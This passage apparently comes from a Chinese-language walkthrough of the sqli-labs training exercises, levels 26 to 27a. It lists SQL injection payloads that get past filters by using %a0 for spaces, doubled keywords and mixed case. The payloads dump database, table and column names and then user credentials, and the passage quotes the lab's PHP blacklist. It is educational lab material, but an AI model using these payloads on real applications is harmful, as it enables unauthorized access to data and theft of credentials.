 ?id=-1 union select 1,(select group_concat(id,0x3e,referer,0x3e,ip_address) from referers),2 获取内容



## 0X1BLess-26

![image-20201111142014565](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111142014565.png)

使用没空格的报错注入

![image-20201111141934343](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111141934343.png)

括号绕过

![image-20201111142215015](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111142215015.png)



## 0X1CLess-26a

相比26多括号闭合 ，并且报错信息不在前端显示 无法使用报错注入

联合查询

?id=100')union%a0select%a01,database(),('3    爆当前数据库   %a0替换空格，注释符号被过滤因此无法使用

![image-20201111143138492](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111143138492.png)

?id=100')union%a0select%a01,(select%a0group_concat(schema_name)%a0from%a0infoorrmation_schema.schemata),('3    爆数据库

?id=100')union%a0select%a01,(select%a0group_concat(table_name)%a0from%a0infoorrmation_schema.tables%a0where%a0table_schema='security'),('3

爆数据表

?id=100')union%a0select%a01,(select%a0group_concat(column_name)%a0from%a0infoorrmation_schema.columns%a0where%a0table_schema='security'%a0aandnd%a0table_name='users'),('3   爆列

?id=100')union%a0select%a01,(select%a0group_concat(username,0x3a,passwoorrd)%a0from%a0security.users),('3 爆数据



## 0X1DLess-27

在26基础上过滤union和select 

![image-20201111144748681](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111144748681.png)

?id=100'unIOn%a0seLect%a01,database(),'3

使用大小写或者双写绕过

## 0X1ELess-27a

```
function blacklist($id)
{
$id= preg_replace('/[\/\*]/',"", $id);        //strip out /*
$id= preg_replace('/[--]/',"", $id);        //Strip out --.
$id= preg_replace('/[#]/',"", $id);            //Strip out #.
$id= preg_replace('/[ +]/',"", $id);        //Strip out spaces.
$id= preg_replace('/select/m',"", $id);        //Strip out spaces.
$id= preg_replace('/[ +]/',"", $id);        //Strip out spaces.
$id= preg_replace('/union/s',"", $id);        //Strip out union
$id= preg_replace('/select/s',"", $id);        //Strip out select
$id= preg_replace('/UNION/s',"", $id);        //Strip out UNION
$id= preg_replace('/SELECT/s',"", $id);        //Strip out SELECT
```
